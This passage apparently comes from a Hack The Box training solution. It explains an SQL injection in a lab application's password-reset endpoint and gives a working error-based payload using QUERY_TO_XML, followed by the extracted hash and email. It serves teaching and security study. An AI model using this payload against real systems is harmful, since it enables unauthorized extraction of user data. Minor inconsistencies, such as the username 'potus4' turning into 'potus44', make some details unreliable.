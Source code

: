 ```
postgresql-2023-03-10_133306.log                                                                                                                                                 100%  155KB   4.2MB/s   00:00    
postgresql-2023-03-22_144521.log                                                                                                                                                 100% 8124   227.2KB/s   00:00    
postgresql-2023-03-14_144813.log                                                                                                                                                 100% 9969   440.5KB/s   00:00    
postgresql-2023-03-15_051722.log                                                                                                                                                 100%   13KB 445.3KB/s   00:00    
Cloning into 'fernflower'...

<SNIP>
```

When checking how `passwordResetHash` is populated by the POST `/forgot` endpoint in line 138 of `AuthController.java`, students will come to know that the hardcoded string `https://bluebird.htb/reset?uid=` is added to `var10000` which is the `id` of the user, then the value of `passwordResetHash` gets added afterward:

![[HTB Solutions/CWEE/z. images/273b4bde45fecc2472b936e8aee1e9d0_MD5.jpg]]

Analyzing the endpoint, students will notice that it suffers from a from a SQLi as it concatenates the user-provided POST parameter `email` without any sanitization, given that it matches the `regex` pattern provided by the variable `p`. However, if any exception other than `EmptyResultDataAccessException` occurs, the stack trace is returned to the caller. Therefore, when sending the payload `' or 1=1@academy.htb`, `Exception var11` is raised due to the SQL query being ran contains HTML-encoded characters (which get auto converted by the framework):

![[HTB Solutions/CWEE/z. images/3f24f6281f8145498241b839a2ed78e0_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/00aeba3bff251535866c89419fd4c25c_MD5.jpg]]

Therefore, students need to exploit this `error-based SQL injection` by casting the `TEXT` result of the function `QUERY_TO_XML` as `INT`, passing the query that will exfiltrate the data of the user `potus4` to `QUERY_TO_XML` (students need to replace the single quotes around `potus4` with `$$` to avoid breaking the query):

Code: sql

```sql
email=';SELECT CAST(CAST(QUERY_TO_XML('SELECT * FROM users WHERE username = $$potus4$$ ',TRUE,TRUE,'') AS TEXT) AS INT)--@bluebird.htb
```

![[HTB Solutions/CWEE/z. images/b5da9d0ba1286f4668177c351ea40367_MD5.jpg]]

The query exfiltrates the data of the user `potus44` as:

- `id`: `10`
- `password`: `$2a$12$SfnPDhoKhrNZFccB4KKiRedmva4or7mFNct0ePqqQHewg2YYqr68a`
- `email`: `james@usa.gov`
